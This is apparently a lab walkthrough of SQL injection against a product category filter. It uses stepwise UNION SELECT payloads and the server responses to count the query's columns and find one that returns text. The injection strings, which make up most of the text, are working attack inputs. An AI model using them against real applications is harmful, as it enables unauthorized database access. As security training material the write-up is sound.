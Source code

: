 # SQL injection, finding a column containing text

### Goal:
`Get the application to return an additional row that contains 'xxxXXX'`
### Info: The injection point is the product category filter
`target.com/filter?category=<input>`

<br><br>

**<ins>Step 1: Test injection point</ins>**

category='

`500: server error`<br><br>

category='--

`200`
<br><br>

**<ins>Step 2: Enumerate data output with UNION attack</ins>**

category='UNION SELECT NULL--

`500 server error`<br><br>

category='UNION SELECT NULL,NULL--

`500`<br><br>

category='UNION SELECT NULL,NULL,NULL--

`200`

This means that the database returns three columns.<br><br>

category=' UNION SELECT 'xxxXXX',NULL,NULL--

`500 server error`<br><br>

category='UNION SELECT NULL,'xxxXXX',NULL--

`200`<br><br>

This means that the second column can output strings.